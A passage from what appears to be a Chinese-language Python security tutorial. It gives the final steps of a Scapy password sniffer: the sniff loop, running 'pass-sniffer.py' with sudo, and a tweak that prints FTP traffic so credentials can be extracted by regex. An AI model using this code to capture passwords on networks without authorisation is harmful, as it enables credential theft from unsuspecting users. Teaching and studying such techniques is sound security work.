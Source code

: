 ```
try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

7.  现在，使用所需权限运行脚本：

```
sudo python3 pass-sniffer.py  
```

8.  我们可以更新此脚本以提取 FTP 凭据，只需稍作修改：

```
if pkt[TCP].dport == 21 or pkt[TCP].sport ==21:
   data = pkt[Raw].load
   print(str(data))  
```

这将打印 FTP 数据。我们可以在上面运行正则表达式匹配来获取用户名和密码。